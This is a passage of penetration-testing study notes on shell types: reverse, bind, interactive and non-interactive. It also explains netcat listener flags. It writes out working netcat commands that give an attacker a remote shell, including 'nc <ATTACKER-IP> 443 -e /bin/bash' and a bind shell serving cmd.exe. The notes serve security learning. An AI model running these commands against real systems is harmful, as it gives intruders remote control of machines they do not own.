 listen on attacking machine, send connection from target

Target machine:
`nc <ATTACKER-IP> 443 -e /bin/bash`

Attacking machine:
`sudo nc -lnvp 443`

#### Bind shell:

Execute code on target machine to start a listener attached to a shell directly which opens 
the port to the internet allowing a connection from the attacking machine.

Doesn't require configuration on attacking machine's network but may be prevented by 
firewalls protecting the target.

Bind shell example:

listen on the target, send connection from attacking machine

Target machine:
`nc -lnvp <PORT> -e "cmd.exe"`

Attacking machine:
`nc <TARGET-IP> <PORT>`

#### Interactive shell:

Interactive shells allow you to interact with programs after executing them. For example, 
take the SSH login prompt:

` Are you sure you want to continue connecting(yes/no/[fingerprint])?`

It's asking interactively that the user type either yes or no in order to continue the 
connection. This is an interactive program, which requires an interactive shell in order to 
run.

#### Non-Interactive shell:

 In a non-interactive shell you are limited to using programs which do not require user 
 interaction in order to run properly. Unfortunately, the majority of simple reverse and 
 bind shells are non-interactive.

### Netcat

Reverse Shells

The syntax for starting a netcat listener:

`nc -lvnp <port-number>`

-l is used to tell netcat that this will be a listener
-v is used to request a verbose output
-n tells netcat not to resolve host names or use DNS.
-p indicates that the port specification will follow.

*use sudo for port numbers below 1024*

Bind shells
